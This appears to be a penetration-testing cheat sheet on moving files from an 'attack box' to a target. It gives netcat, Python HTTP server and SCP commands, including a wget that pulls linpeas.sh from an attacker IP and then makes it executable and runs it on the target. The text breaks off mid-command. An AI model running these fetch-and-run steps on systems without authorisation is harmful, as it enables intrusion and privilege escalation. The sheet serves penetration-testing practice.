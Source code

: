### Transfering Files from your Attack Box to the Target
#### Netcat File Transfer
- Step 1
- Create a file on the target box in the /tmp directory
`touch file.txt`
- Set up the listener and direct STDOUT into the new file
`nc -nlvp 1234 > file.txt`
-Send the file
`nc [target box ip] 1234 < file-to-be-transfered.txt`

#### Python HTTP Server File Transfer
- Start the Python Server in the directory where the file is located that you want to transfer
`python3 -m http.server`
- Above is for python3
`python -m SimpleHTTPServer 8000`
- Above is for python
- You can optionally specify a port that you want the server to run on (it defaults to 8000)
`python3 -m http.server 80`
- Wget the file from the target box
`wget http://172.16.6.1:8000/linpeas.sh`
- Change permissions
`chmod +x linpeas.sh`
- Run the transfered file
`./linpeas.sh`

#### Secure Copy Protocol
- SCP a file from your attack box to a target box
`scp /home/kali/Documents/linpeas.sh user@10.10.10.100:/tmp`
- This command copies the file linpeas.sh to user on the target box and places it in the /tmp directory.
- SCP a file from your attack box while on the command line of a target box
`scp jack@172.16.6.1:/home/kali/Documents/linpeas.sh
